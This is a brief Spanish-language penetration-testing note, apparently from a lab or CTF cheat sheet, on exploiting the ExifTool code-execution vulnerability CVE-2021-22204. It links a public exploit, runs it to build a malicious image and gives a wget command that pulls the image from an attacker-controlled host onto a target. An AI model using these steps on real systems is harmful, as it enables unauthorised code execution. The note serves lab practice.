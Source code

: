 ## DESCRIPTION

Exiftool tiene una vulnerabilidad que permite ejecutar codigo a partir de una imagen maliciosa, existe un exploit para crear esta imgen maliciosa.

#### Mas información
* https://github.com/convisolabs/CVE-2021-22204-exiftool


## EXPLOITATION

### OPTION 1: DESDE KALI
Exploit: https://github.com/convisolabs/CVE-2021-22204-exiftool

1. Creamos la imagen maliciosa:

```
sudo python3 exploit.py 
```

2. La transferimos a la máquina:

```
wget http://192.168.45.225/image.jpg
```

3. Ejecutamos exiftool o si esta en una tarea programada se ejecutara solo pasándole esa imagen como parámetro.
## MACHINES

* Hack The Box: 
* Pg: resourced

**!!NOTA IMPORTANTE!!** 